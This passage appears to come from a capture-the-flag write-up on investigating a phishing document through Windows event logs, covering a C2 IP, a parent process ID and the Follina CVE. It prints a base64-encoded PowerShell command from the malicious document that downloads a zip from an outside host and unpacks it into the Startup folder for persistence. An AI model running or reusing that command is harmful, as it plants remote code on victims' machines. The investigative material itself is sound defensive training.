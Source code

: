 ![](https://i.imgur.com/JW9DbGv.png)

**Answer**: `167[.]71[.]199[.]191`
### Question 5

Once again, what do we know?

- This question is referring to something invoked by the document, so we can assume the Parent PID of the malicious payload is 496.
- EventID is Process Creation.

**Note**: The ParentProcessID field can be found in the Payload Data 4 row.

![](https://i.imgur.com/Msq1nZK.png)

![](https://i.imgur.com/mk0FB58.png)

**Answer**:

```
**“**_JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==”_
```

Let's extract the base64 and decode it using CyberChef.

![](https://i.imgur.com/YxfrCar.png)
### Question 6

> What is the CVE number of the exploit used by the attacker to achieve a remote code execution?

Doing some googling around the LOLBins used, you may see a familiar name, Follina.

**Answer**: `2022-30190`
# Initial Access - Stage 2 Execution
## Malicious Document - Stage 2

Based on the initial findings, we discovered that there is a stage 2 execution:

- The document has successfully executed an encoded base64 execution:
- Decoding this string reveals the exact command chain executed by the malicious document.
## Investigation Guide

With the following discoveries, we may refer again to the cheatsheet to continue with the investigation:

- The Autostart execution reflects explorer.exe as its parent process ID.
- Child processes of explorer.exe within the event timeframe could be significant.
- Process Creation (Event ID1) and File Creation (Event ID 11) succeeding the document execution are worth checking.
